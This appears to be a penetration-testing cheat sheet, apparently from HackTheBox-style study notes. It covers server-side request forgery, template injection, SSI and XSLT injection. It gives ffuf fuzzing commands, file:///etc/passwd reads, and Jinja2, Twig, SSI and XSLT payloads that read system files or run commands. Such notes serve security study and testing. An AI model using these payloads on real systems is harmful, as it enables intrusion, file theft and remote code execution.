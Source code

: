```yaml
---
description: From SSRF, SSTI to SSI injections.
---
```


# Server Side Attacks

### <mark style="color:yellow;">Server-side Request Forgery or SSRF</mark>

If a server retrieves resources based on user input like an url it can lead to the server making unintended requests. Several URL schemes can be used:

* `http://` and `https://`: Fetches content via `http/s` requests leading to acces to internal network.
* `file://` Used to read local files on web server
* `gopher://` Send http posts requests with payloads databases or email.

Look for parameters that passes URL's and try changing those own listener or internal network like `http://127.0.0.1/index.php`.

#### Port scan

Based on differences of response of a request we can conduct a port scan.

```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-02" -fr "Failed to connect to"
```

#### Brute force directories

Look at data in the request `-d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01"` . Fuzzing .php pages.

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

#### Local File Inclusion (LFI)

In the data payload use file:// `-d "dateserver=file:///etc/passwd&date=2024-01-01"`

#### Blind SSRF

If we cannot see the response and there is a SSRF vulnerbality its called a bilnd SSRF vulnerability. Netcat listener can confirm for a vuln.

### <mark style="color:yellow;">Server-side Template Injection or SSTI</mark>

SSTI occurs when user input is inserted into the **template itself** before rendering, allowing code execution.

Like with SQL we can identify vulnerabilities using:

```
{{7*7}}
{{7*'7'}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

#### Find payloads: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)

#### Local File Inclusion (LFI) Jinja2

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

#### Remote Code Executino (RCE) Jinja2

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

#### Local File Inclusion (LFI) Twig

```jinja2
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

#### Remote Code Executino (RCE) Twig

```jinja2
{{ ['id'] | filter('system') }}
```

### <mark style="color:yellow;">SSI Injection</mark>

Server-Side Includes (SSI) is used by webapps to create dynamic content on HTML pages. The use of SSI can be found if files are used:

* `.shtml`
* `.shtm`
* `.stm`

SSI uses directives consisting of:

* `name`: the directive's name
* `parameter name`: one or more parameters
* `value`: one or more parameter values

Several payloads

```ssi
<!--#printenv -->
<!--#name param1="value1" param2="value" -->
<!--#exec cmd="whoami" -->
```

### <mark style="color:yellow;">XSLT Injection</mark>

eXtensible Stylesheet Language Transformation (XSLT) can select specific nodes from an XML document and change the XML structure.

```xml
# LFI
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />

# RCE
<xsl:value-of select="php:function('system','id')" />
```
